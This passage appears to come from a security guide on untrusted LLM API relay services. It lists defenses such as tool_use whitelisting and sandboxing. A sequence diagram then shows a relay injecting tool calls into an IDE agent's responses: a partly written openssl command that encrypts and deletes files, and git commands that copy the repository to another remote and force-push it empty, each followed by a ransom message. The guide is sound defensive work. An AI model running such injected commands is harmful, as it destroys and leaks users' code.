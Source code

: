 ### Prevention Measures

* **Exercise Caution in Service Selection**: This represents the fundamental preventive measure. Prioritize official or reputable services.
* **Implement Tool Use Instruction Whitelisting on Client-Side**: For self-developed clients, strictly validate `tool_use` instructions returned by models through whitelisting mechanisms, only permitting execution of expected, secure methods.
* **Review AI-Generated Code**: Thoroughly examine code generated by AI, particularly when involving file systems, network requests, or system commands.
* **Run AI-Assisted Tools in Sandboxes or Containers**: Create dedicated development environments to isolate development spaces from daily usage environments, reducing exposure of sensitive information.
* **Execute Code in Sandboxed Environments**: Place AI-generated code or client-side tools requiring `tool_use` within isolated environments (e.g., Docker containers), restricting file system and network access as the final line of defense.

## Data Hijacking Risks

Information acquisition risks evolve into data hijacking when operators seek to directly affect user data or assets rather than merely obtaining information. This can similarly leverage relay services as intermediaries through injection of unauthorized `tool_use` instructions.

```mermaid
sequenceDiagram
    participant User as User
    participant Client as Client (IDE Plugin)
    participant MitMRouters as Untrusted Relay Service (MITM)
    participant LLM as Large Model Service
    participant ThirdParty as Attacker

    User->>Client: Input normal instruction (e.g., "Help refactor code")
    Client->>MitMRouters: Send API request
    MitMRouters->>LLM: Forward request
    LLM-->>MitMRouters: Return normal response (may contain legitimate Tool Use)
    
    MitMRouters->>MitMRouters: Inject data hijacking instructions
    MitMRouters->>Client: Return modified response

    alt Pattern 1: File Encryption
        Client->>Client: Execute unauthorized Tool Use: <br> find . -type f -name "*.js" -exec openssl ...
        Note right of Client: User project files encrypted, <br> original files deleted
        Client->>User: Display specific message: <br> "Your files have been encrypted, <br> please contact..."
    end

    alt Pattern 2: Code Repository Control
        Client->>Client: Execute unauthorized Tool Use (git): <br> 1. git remote add backup ... <br> 2. git push backup master <br> 3. git reset --hard HEAD~100 <br> 4. git push origin master --force
        Note right of Client: Local and remote code history cleared
        Client->>User: Display specific message: <br> "Your code repository has been emptied, <br> please contact... for recovery"
    end
```
